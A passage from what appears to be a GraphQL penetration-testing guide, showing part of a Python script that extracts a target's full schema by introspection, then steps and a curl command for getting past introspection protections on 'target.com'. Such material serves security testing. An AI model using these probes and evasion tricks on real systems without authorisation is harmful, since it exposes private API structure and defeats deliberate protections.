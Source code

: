            headers = {"Content-Type": "application/json"}
           query = {"query": introspection_query}
           
           response = requests.post(url, headers=headers, json=query)
           
           if response.status_code == 200:
               try:
                   result = response.json()
                   if "data" in result and "__schema" in result["data"]:
                       with open('schema.json', 'w') as f:
                           json.dump(result, f, indent=2)
                       print("[+] Full schema extracted and saved to schema.json")
                       
                       # Extract and print all query fields
                       query_type = None
                       types = result["data"]["__schema"]["types"]
                       
                       for t in types:
                           if t["name"] == result["data"]["__schema"]["queryType"]["name"]:
                               query_type = t
                               break
                       
                       if query_type and "fields" in query_type:
                           print("\n[+] Available Queries:")
                           for field in query_type["fields"]:
                               print(f"  - {field['name']}")
                       
                       return True
                   else:
                       print("[-] Response doesn't contain schema data")
               except Exception as e:
                   print(f"[-] Error processing response: {str(e)}")
           else:
               print(f"[-] Request failed with status code {response.status_code}")
           
           return False
       
       # Example usage
       extract_full_schema("https://target.com/graphql")
       ```
    
    3. **Bypassing introspection protections**:
       - Step 1: Try alternative formats of the introspection query
       - Step 2: Insert newlines or spaces in the `__schema` keyword
       ```graphql
       {
         __schema
         {
           types {
             name
           }
         }
       }
       ```
       - Step 3: Try using GET requests instead of POST
       - Step 4: Test different content types (application/graphql)
       - Step 5: Try batched queries with both valid and introspection queries
       - Example CURL command with newline bypass:
       ```bash
       curl -s -X POST https://target.com/graphql -H "Content-Type: application/json" -d '{"query":"{\n__schema\n{queryType{name}}}"}'
       ```
    